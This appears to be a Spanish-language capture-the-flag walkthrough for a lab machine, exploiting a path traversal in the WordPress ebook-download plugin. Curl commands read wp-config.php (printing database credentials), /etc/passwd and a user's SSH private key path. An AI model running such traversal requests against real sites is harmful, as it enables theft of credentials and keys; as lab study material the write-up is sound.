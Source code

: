 
La "etiqueta estable" de 1.1 muestra una versión vulnerable. Soy capaz de leer el wp-config.phparchivo tal como sugiere POC, incluida la información
de conexión de la base de datos: 

- curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php
/**
 * The base configuration for WordPress
...[snip]...
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

y la ruta que podemos explotar es

- /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php 

en ves de wp-config hacemos 

- /etc/passwd

o por consola

- curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd"

grepeamos con sh

- curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd" | grep "sh$"

y podemos ver que nos devuelve al usuario user que tiene el directorio /home/user, asi que buscamos dentro de la ruta algun archivo ssh

- sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/home/user/.ssh/id_rsa"

- sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/home/user/.ssh/id_rsa.pub"

para buscar claves autorizadas.
